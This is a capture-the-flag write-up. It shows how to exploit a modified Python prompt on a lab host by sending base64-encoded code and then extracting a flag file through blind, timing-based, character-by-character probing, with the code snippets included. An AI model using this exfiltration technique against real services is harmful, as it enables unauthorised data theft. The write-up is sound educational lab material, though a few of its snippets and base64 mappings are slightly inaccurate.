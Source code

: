## snakebtte

This challange was only worth 100 points, but IMHO a lot harder than others as it required some coding - it was also partly broken; the intended solution didn't work. My guess is that python should've returned output here.

nmap 10.10.0.229 -- port 9999/TCP is open

```
$ telnet 10.10.0.229 9999
Trying 10.10.0.229...
Connected to 10.10.0.229.
Escape character is '^]'.
Python 133.7.0 (default, Jul 15 2042, 10:44:58)
[GCC 168.1.1 20180531] on linix
Type "help", "copyright", "credits" or "license" for more information. Long live the Waterlord!
>>> dummy
RG8gbm90IHR5cGUgdW5lbmNyeXB0ZWQhIFRoZSBkaXJ0LXBlb3BsZSBtaWdodCBiZSBsaXN0ZW5pbmcK
>>> 
```

This looked very familiar - it's a modified python prompt.
The text is base64 and decodes to: "Do not type unencrypted! The dirt-people might be listening"
So my guess was python code can be send base64-encoded. e.g.:

import os => aW1wb3J0IHRpbWUK

If you send invalid python code, the shell will disconnect.
However, commands issued do not return any output, except another command prompt ">>>".

First thing was to find out the pyton version and verify python is actually running our commands:
```
import sys
import time
sys.version[0]=='3' and time.sleep(5)

# translates to:
aW1wb3J0IHN5cwo=
aW1wb3J0IHRpbWUK
c3lzLnZlcnNpb25bMF09PSczJyBhbmQgdGltZS5zbGVlcCg1KQo=
```

The shell indeed paused for 5 seconds, so it's python3.

I guessed the path of the FLAG.TXT correctly (trying to open a nonexistent file will cause the shell to terminate).

It was impossible to do data exfiltration through os.system(), as the system could not reach the outside.

Thus a time-based method was used (base64-encode each line and send it to the server):

```
import os
import time
f = open('FLAG.TXT', 'r')
data = f.read()
"(data)[0]=='D' and crash
dummy
dummy
exit==
```

0 is the position in the file we're trying to brute-force, D is the character - we already know that flags are in the form DORF18{...}
This verified that FLAG.TXT is the correct file.

Our goal is to compare each byte of the FLAG.TXT file to a charset, from previous flags I choose the following, in order to account for 1337-speak and _ instead of space in order to speed up the exfiltration of the flag:

_ A B C D E F G H I J K L M N O P Q R S T U V W X Y Z 0 1 3 4 5 7 a b c d e f g h i j k l m n o p q r s t u v w x y z . - 2 6 8 9 { }

The "dummy" line makes the program return the text from the beginning and is used to verify that there was indeed no disconnect.

I wrapped this up in some very ugly bash code + netcat and measured the time for each run, exfiltrating the flag within ~1.5 hours.
This was very slow, and only afterwards I noticed I could've used divide-and-conquer (pasting a lot more lines at once) to speed this up reasonably.
However, I managed to get the Flag about 10 minutes before the CTF was shut down. :)

### FLAG
DORF18{Y0U_S33m_T0_Kn0W_BASE64}

